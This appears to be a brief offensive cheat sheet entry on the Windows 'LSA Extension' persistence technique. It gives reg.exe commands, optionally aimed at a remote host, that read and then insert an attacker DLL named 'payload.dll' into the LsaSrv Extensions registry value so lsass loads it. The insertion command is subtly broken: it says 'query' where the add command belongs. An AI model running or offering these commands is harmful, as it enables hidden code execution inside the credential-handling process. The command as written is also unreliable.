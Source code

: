 # LSA Extension

```
C:\> reg.exe query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\LsaExtensionConfig\LsaSrv /v Extensions /f
```

```
C:\> reg.exe query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\LsaExtensionConfig\LsaSrv /v Extensions /t REG_MULTI_SZ /d "lsasrv.dll efslsaext.dll payload.dll" /f
```

---
## References

- [Persistence Info: LSA Extension](https://persistence-info.github.io/Data/lsaaextension.html)